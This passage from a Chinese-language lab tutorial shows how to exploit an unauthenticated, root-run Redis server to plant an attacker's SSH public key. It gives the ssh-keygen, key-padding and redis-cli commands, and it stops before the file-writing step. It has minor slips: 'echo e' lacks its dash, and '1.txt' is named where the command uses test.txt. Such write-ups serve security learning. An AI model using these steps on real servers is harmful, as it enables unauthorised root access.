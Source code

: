 -   Redis 服务使用 ROOT 账号启动
    
-   服务器开放了 SSH 服务，而且允许使用密钥登录，即可远程写入一个公钥，直接登录远程服务器。
    

**实例**

1.  靶机中开启 redis 服务：`redis-server /etc/redis.conf`
    
2.  在靶机中执行 `mkdir /root/.ssh` 命令，创建`ssh`公钥存放目录
    

在攻击机中生成 ssh 公钥和私钥，密码设置为空：

```plain
ssh-keygen -t rsa
```

[![](assets/1702372985-2ec4bff025afb91fefe6574e56cafe3a.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/WEB/Redis/12.png)

进入`.ssh`目录：`cd .ssh/`，将生成的公钥保存到`test.txt`：

```plain
# 将公钥的内容写到一个文本中命令如下
(echo -e "\n\n"; cat id_rsa.pub; echo e "\n\n") > test.txt
```

[![](assets/1702372985-3c00587120fb794b50b2beaddd49a7f3.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/WEB/Redis/13.png)

链接靶机上的`redis`服务，将保存`ssh`的公钥`1.txt`写入`redis`（使用`redis-cli -h ip`命令连接靶机，将文件写入）

```plain
  cat test.txt | redis-cli -h <hostname> -x set test
```

[![](assets/1702372985-2d9ca6626d4f6080d6b2fed658fcd899.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/WEB/Redis/14.png)

